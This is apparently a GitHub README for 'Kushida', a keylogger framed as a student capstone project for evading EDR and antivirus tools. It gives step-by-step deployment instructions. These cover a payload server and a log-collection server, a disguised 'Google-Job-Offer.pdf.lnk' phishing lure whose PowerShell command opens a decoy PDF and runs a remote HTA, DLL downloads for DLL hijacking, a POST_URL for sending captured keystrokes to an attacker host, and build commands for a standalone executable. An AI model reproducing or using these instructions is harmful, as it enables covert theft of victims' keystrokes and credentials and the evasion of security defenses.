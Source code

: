 # Kushida
This is the Kushida keylogger developed for my Fall 2023 Bachelor's capstone project. It was developed for research and academic purposes.

Kushida is a keylogger written in C. It is a proof of concept for evading modern EDR and AV programs. It successfully evades many EDR solutions by using DLL hijacking.

# Setting up the server

The server should be a Linux server and needs to have Python 3 installed, and the victim needs to have the ability to initiate a TCP connection to the server. The libraries the server uses are part of the Python standard library.

Two services need to be run for this server:
1. The HTTP file service
2. The HTTP log collection service
To run the HTTP file service
1. Download the KeyloggerFiles Folder from the repository
2. Place the KeyloggerFiles folder in your file system (anywhere is fine).
3. Change directories into the KeyloggerFiles folder and run the following command:

```bash
sudo python3 -m http.server 80
```

If you want to background the process, you press CTRL+Z, then type bg. 

Next, to set up the HTTPS log collection service, we need to download the httpsServer folder from the repository.
1. Change directories inside the downloaded the httpsServer folder
2. Generate keys if needed
3. Then, run the Python file inside the folder with:
```bash
python3 httpsServer.py
```
Keys are provided in the repository, however, you can generate your own keys with the following openssl command:
```bash
openssl req -new -x509 -keyout key.pem -out server.pem -days 365 -nodes
```

The services should now be running on all interfaces. The ports that are used are port 80 for the HTTP file server and 8080 for the HTTPS server. These values can be modified if needed, however, you will also need to modify the ports of the malware accordingly.

# Building and running Kushida

## Google-Job-Offer.pdf.lnk
This is the malicious "PDF" which will present a PDF to the user and install Kushida.
Replace the IP address `192.168.12.95` with your server's IP address.
```PowerShell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "& start microsoft-edge:http://192.168.12.95/Google-Job-Offer.pdf; C:\Windows\System32\mshta.exe http://192.168.12.95/FileDownloader.hta"
```

## FileDownloader.hta
This script is downloaded by the lnk
Replace the IP address `192.168.12.95` with your server's IP address.
```javascript
var fileUrl1 = "http://192.168.12.95/cscapi.dll";  
var fileUrl2 = "http://192.168.12.95/libcurl-d.dll"; 
var fileUrl3 = "http://192.168.12.95/zlibd1.dll";
```

## cscapi.dll

This is the keylogger itself. To compile this, we need vcpkg installed.

Installation instructions can be found here: [Get started with vcpkg](https://vcpkg.io/en/getting-started.html)

Then open a command prompt, change directories to the vcpkg directory you installed, and enter the following command:
```
vcpkg.exe install curl[tool]
```

You may need to reload Visual Studio after installing libcurl.

Change the `POST_URL` definition to the URL your server uses. By default, just change the IP address. 
```
#define POST_URL "https://192.168.12.95:8080/file.txt"
```

Now, in Debug 64-bit mode, build the program using Visual Studio. You can also build the program in Release, however, you would have to change the names for `libcurl-d.dll` and `zlibd1.dll` to `libcurl.dll` and `zlib1.dll` respectively. 

If you need to target a 32-bit application, compile the DLL in 32-bit mode.

Now place the programs you have built into the KeyloggerFiles folder on your server.

# Kushida in action

![Pasted image 20231130001641](https://github.com/nszeto168/kushida/assets/103395342/8e7d322b-a74d-461a-9a6a-380653d11625)

The malicious and non-malicious PDFs are nearly identical.


![Pasted image 20231130001719](https://github.com/nszeto168/kushida/assets/103395342/c3e54f42-3513-4713-9fd0-032c603afccf)

The malicious LNK file will open a PDF for the victim, making it seem legitimate.

![Pasted image 20231130002042](https://github.com/nszeto168/kushida/assets/103395342/0b9c52b0-4fd0-4efb-947c-abe7265e651e)

![Pasted image 20231130002120](https://github.com/nszeto168/kushida/assets/103395342/f96268b6-07d4-4d84-aff9-218def0392f4)


The keylogging should start. Whenever Kushida starts up and is loaded into memory, it will execute DLLMain, which will send log.txt to the HTTPS server.
![Pasted image 20231130002157](https://github.com/nszeto168/kushida/assets/103395342/3bf41847-5141-4788-9ce4-33608da8fbfd)


# Kushida Solo (standalone exe)

There is a modified version of Kushida available which functions as a standalone exe file. This exe file can be useful because certain EDRs may be triggered by DLL hijacking or the malicious LNK file. However, the DLL hijacking method tends to be a stealthier solution long term because it makes far less "noise".

There are some benefits to Kushida Solo:
- With Kushida Solo, you do not need `libcurl-.dll` nor `zlibd1.dll`.
- Kushida Solo can be compiled either as a 32-bit or a 64-bit application.
- Kushida Solo may evade some defenses more effectively (generally Kushida as a DLL is better though).

## Building Kushida Solo
![Pasted image 20231130003706](https://github.com/nszeto168/kushida/assets/103395342/db46e388-9724-4d71-b7fe-7e2fcc6d94b1)


Change Kushida's send frequency in keylogger.h. By default, it is every 5 seconds. This makes a lot of noise and is not recommended, however, it is good for testing.

Also, change the hostname definition in keylogger.cpp
![Pasted image 20231130005729](https://github.com/nszeto168/kushida/assets/103395342/545ad103-0dce-44b8-8597-4e7168f99d76)


VisualStudio's build tool does not seem to work when compiling Kushida solo, so we can compile it with cl.exe

Change directories to the `keylogger` directory, then run:
```PowerShell
cl.exe keylogger.cpp /link /OUT:kushida.exe winhttp.lib user32.lib kernel32.lib
```

Now you should have a standalone executable. The executable generates a log file in the same directory as itself.
You will still need to run the HTTPS log collection server, however, you will not need the HTTP file server when using Kushida Solo.

# Results
![image](https://github.com/nszeto168/kushida/assets/103395342/880607eb-b469-408e-bfaf-10a3e30f9f1e)

Thanks for checking out the Kushida keylogger, I hope you enjoyed it!
